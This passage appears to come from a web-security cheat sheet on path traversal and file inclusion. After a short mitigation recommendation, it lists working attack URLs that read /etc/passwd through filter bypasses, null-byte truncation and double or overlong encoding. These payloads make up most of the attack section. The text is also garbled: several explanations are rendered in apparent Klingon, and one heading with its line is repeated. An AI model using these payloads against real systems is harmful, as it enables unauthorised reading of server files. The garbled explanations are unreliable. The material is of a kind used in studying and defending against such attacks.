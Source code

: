 #### Recommendation

To mitigate this vulnerability, it is recommended to implement a recursive sanitization mechanism that removes all occurrences of traversal sequences in the input. Additionally, it is important to validate and sanitize user input effectively to prevent other types of attacks such as SQL injection or cross-site scripting (XSS). Regular expression-based input validation can be a useful technique to achieve this.

#### Example

Consider a web application that includes files based on user-supplied input without proper sanitization. The application removes "../" from the input to prevent directory traversal attacks. However, the sanitization is implemented non-recursively, allowing an attacker to bypass it by using multiple traversal sequences.

```
GET /page?file=../../../etc/passwd HTTP/1.1
Host: vulnerable-website.com
```

In this example, the attacker is able to access the sensitive file `/etc/passwd` by using multiple traversal sequences. If the sanitization mechanism were implemented recursively, it would remove all occurrences of traversal sequences and prevent this attack.
```python
http://example.com/index.php?page=....//....//....//etc/passwd
http://example.com/index.php?page=....\/....\/....\/etc/passwd
http://some.domain.com/static/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd
```
### **Null byte (%00)**

Bypass the append more chars at the end of the provided string (bypass of: $\_GET\['param']."php")

### **Null byte (%00)**

Bypass the append more chars at the end of the provided string (bypass of: $\_GET\['param']."php")
```
http://example.com/index.php?page=../../../etc/passwd%00
```
**qaStaHvIS PHP 5.4** **Sov**.

### **Encoding**

**non-standard encondings** **vaj** double URL encode (and others) **vaj** **chu'**.
```
http://example.com/index.php?page=..%252f..%252f..%252fetc%252fpasswd
http://example.com/index.php?page=..%c0%af..%c0%af..%c0%afetc%c0%afpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd
http://example.com/index.php?page=%252e%252e%252fetc%252fpasswd%00
```
### vIghoS

qatlh backend vItlhutlh. Dochmey path folder vItlhutlh:
```python
http://example.com/index.php?page=utils/scripts/../../../../../etc/passwd
```
### qawHaq File System Directories on a Server
